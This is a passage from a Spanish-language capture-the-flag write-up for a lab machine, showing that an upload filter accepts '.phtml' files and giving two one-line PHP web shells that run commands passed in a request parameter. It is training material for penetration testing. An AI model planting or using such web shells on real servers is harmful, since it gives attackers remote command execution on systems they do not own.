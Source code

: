 <p align="center">
<img src="/assets/images/THL-writeup-bridgenton/Captura10.png">
</p>

Está aceptando la extensión `.phtml`.

<br>

<h2 id="Shell">Subiendo Script Malicioso de PHP y Obteniendo una Sesión de la Máquina Víctima</h2>

Vamos a crear un script en **PHP** que nos funcione como una shell, para probar si funciona.

Puedes ocupar cualquiera de los dos:

```php
# Forma 1:
<?php
	system($_REQUEST['cmd']);
?>


# Forma 2:
<?php
        system($_GET['cmd']);
?>
```

Una vez que lo tengas, carga el archivo y crea un nuevo usuario:

<p align="center">
<img src="/assets/images/THL-writeup-bridgenton/Captura11.png">